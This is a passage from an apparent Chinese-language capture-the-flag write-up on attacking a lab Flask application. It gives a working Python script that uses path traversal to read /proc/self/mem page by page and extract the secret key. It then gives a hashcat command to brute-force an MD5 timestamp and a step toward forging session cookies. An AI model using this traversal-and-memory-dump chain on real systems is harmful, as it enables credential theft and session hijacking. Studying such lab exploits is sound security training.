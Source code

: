 ```python
    app.run(host='0.0.0.0')
```
配合start和end读内存，读取全部内存，找到32位字符串，那就是key或secret_key（通常做法）
内存里有些区域不可读，所以需要利用/proc/self/maps去读段的起始地址和结束地址
读取mem脚本：
```python
import requests,time,re

#maps里是读maps的原始内容
maps = open('maps').read().split('\n')

start_end = []
for line in maps:
    if ' r' not in line: #忽略不可读的内存
        continue
    line = line.split()[0]
    start = line.split('-')[0]
    end = line.split('-')[1]
    start_end.append([start,end])

page_size = 4096
for i,line in enumerate(start_end):
    start = int(line[0],16)
    end = int(line[1],16)

    # page_size = end-start 写了这条也可

    start_page = start // page_size
    page_num = (end-start)//page_size
    print(f'[*]{i + 1}/{len(start_end)}', 'page_num: ',page_num)
    result = open(f'my/{line[0]}-{line[1]}.bin', 'wb')

    for page in range(page_num):
        url = f'http://192.168.190.130:5000/books?book=../../../../../../../proc/self/mem&page={start_page+page}&page_size={page_size}'
        res = requests.get(url)
        result.write(res.text.encode())
        result.write(b'\n')
    result.close()
```
全局正则匹配，找到两个考得近的32位字符串
```python
9776436d6a1453cf13eceee8cda4fd84
e6e69a980d637186e90656f2d9a5a1a8
```
解session，可以解的是secret_key（9776436d6a1453cf13eceee8cda4fd84），剩下的为key（e6e69a980d637186e90656f2d9a5a1a8）
[https://github.com/noraj/flask-session-cookie-manager](https://github.com/noraj/flask-session-cookie-manager)
![image.png](https://cdn.nlark.com/yuque/0/2023/png/35980243/1689246508994-5b1e5f4f-3137-47c3-9b1a-b06c3053a516.png#averageHue=%23151514&clientId=u1129387b-6829-4&from=paste&height=60&id=uaeddb733&originHeight=60&originWidth=1089&originalType=binary&ratio=1&rotation=0&showTitle=false&size=14192&status=done&style=none&taskId=ud46b390a-fd76-44d7-9bf4-8160684c674&title=&width=1089)
接下来爆时间戳
从程序运行（开靶场）时，敲几个时间戳出来，前面几位固定，爆破后面数字
![image.png](https://cdn.nlark.com/yuque/0/2023/png/35980243/1689245603286-ae79d2b8-99f1-467b-8731-b9010485a89b.png#averageHue=%23141414&clientId=u1129387b-6829-4&from=paste&height=285&id=ud2784194&originHeight=285&originWidth=854&originalType=binary&ratio=1&rotation=0&showTitle=false&size=28845&status=done&style=none&taskId=ufbd62711-a15d-4c9c-a110-5b627a315f6&title=&width=854)
用hashcat爆破
```python
hashcat -m 0 -a 3 e6e69a980d637186e90656f2d9a5a1a8 168924550?d?d?d?d?d?d?d?d?d?d
```
（前面爆破出了，再爆破直接用--show显示结果）
![image.png](https://cdn.nlark.com/yuque/0/2023/png/35980243/1689245982728-32d0997c-ce00-4d25-817b-6129fdefd63c.png#averageHue=%231b1b1b&clientId=u1129387b-6829-4&from=paste&height=71&id=u376f2527&originHeight=71&originWidth=843&originalType=binary&ratio=1&rotation=0&showTitle=false&size=10277&status=done&style=none&taskId=u277b9fa4-f00e-403b-9053-e4cfa221987&title=&width=843)
```python
e6e69a980d637186e90656f2d9a5a1a8:1689245500101730900
```
伪造session（注意key后的空格）
